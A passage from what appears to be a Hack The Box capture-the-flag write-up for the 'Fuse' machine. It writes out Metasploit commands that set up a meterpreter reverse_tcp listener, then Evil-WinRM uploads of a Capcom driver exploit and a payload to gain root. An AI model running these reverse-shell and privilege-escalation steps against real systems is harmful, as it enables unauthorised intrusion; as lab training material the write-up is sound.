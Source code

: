 With our payload create we'll spin up a listener in `metasploit`.

Command:
`msfdb run`
`msf5> use exploit/multi/handler`
`msf5> set payload payload windows/x64/meterpreter/reverse_tcp`
`msf5> set lhost tun0`
`msf5> run`

With our listener ready, we can upload our payload and exploit via `Evil-WinRM`.

Command:
`upload ~/Documents/htb/fuse/ExploitCapcom.exe`
`upload ~/Documents/htb/fuse/rootme.exe`

Now we execute our chain!

{{< figure src="__GHOST_URL__/content/images/2020/06/fuse_root.gif" >}}

There we have it, access to the `root.txt` flag!



